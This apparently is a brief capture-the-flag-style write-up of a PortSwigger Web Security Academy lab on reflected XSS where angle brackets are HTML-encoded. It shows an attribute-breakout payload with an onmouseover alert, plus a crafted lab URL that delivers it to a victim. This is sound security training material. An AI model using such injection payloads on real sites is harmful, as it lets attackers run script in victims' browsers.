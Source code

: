 **Reflected XSS into attribute with angle brackets HTML-encoded**
Our payload
```
viet" onmouseover="alert(1)
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f92098d7-dbca-45f2-9b1d-ca157feb7189)







When you move the mouse over the injected element it should trigger an alert

From <https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded> 


If a victim has this link we have xss attack executed
https://0a2500df03c678048011dfa300d500eb.web-security-academy.net/?search=viet%22+onmouseover%3D%22alert%281%29+
